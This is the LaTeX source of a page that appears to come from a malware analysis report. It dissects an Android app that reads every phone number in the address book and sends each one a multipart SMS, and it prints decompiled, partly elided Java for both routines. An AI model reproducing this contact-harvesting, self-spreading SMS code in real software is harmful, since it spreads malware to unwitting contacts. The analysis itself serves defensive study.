 \documentclass[10pt,titlepage]{article}
\begin{document}
The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityGetNumber} implements the method 
\\ \textit{naqsl.ebxcb.exu.Activity.ActivityGetNumber.fddo(ContentResolver contentResolver, String str)} which is intended to query the phone numbers from the address book using the \textit{ContentResolver.query()} API function (see Listing \ref{activitygetnumberfddo}). While iterating through the entries each row of the table will be parsed and passed as argument to the call of the function \textit{this.f559fddo.m447int(this, string, str);}


\begin{lstlisting}[label=activitygetnumberfddo,caption=The function \textit{naqsl.ebxcb.exu.Activity.ActivityGetNumber.fddo(ContentResolver contentResolver, String)} queries the list of phone numbers stored in the device address book and forwards each entry \textit{naqsl.ebxcb.exu.Cint.m447int(Context context, String str, String str2)} function.,frame=tb]
public void fddo(ContentResolver contentResolver, String str) {
        String str2;
        String str3;
        Cursor query = contentResolver.query(Phone.CONTENT_URI, null, null, null, null);
        [...]
        while (true) {
            str2 = "p=";
            str3 = "4";
            if (!query.moveToNext()) {
                break;
            }
            String string = query.getString(query.getColumnIndex("data1"));
            if (!string.contains("*") && !string.contains("#") && string.length() > 7) {
                try {
                    this.f559fddo.m447int(this, string, str);
                    [...]
                } catch (Exception unused) {
                    [...]
                    sb2.append("|Error sending SMS, maybe there are no permission to send!|");
                    [...]
                }
            }
        }
        z = z2;
        if (z) {
            [...]
            sb4.append("|The dispatch was successful, ");
            sb4.append(i);
            sb4.append(" SMS sent|");
            [...]
\end{lstlisting}

The function \textit{naqsl.ebxcb.exu.Cint.m447int(Context context, String str, String str2)} fetches the 
\\ \textit{android.telephony.SmsManager}\cite[reference/android/telephony/SmsManager]{AndroidDev} and invokes the 
\\ \textit{android.telephony.SmsManager.sendMultipartTextMessage}.
\begin{lstlisting}[label=mainactivityoncreate,caption=The function \textit{naqsl.ebxcb.exu.Cint.m447int(Context context, String str, String str2)} prepares a mulipart message and sends it to a new victim.,frame=tb]
    public void m447int(Context context, String str, String str2) {
        SmsManager smsManager = SmsManager.getDefault();
       	[...]
        smsManager.sendMultipartTextMessage(str, null, divideMessage, arrayList, arrayList2);
    }
\end{lstlisting}
\end{document}
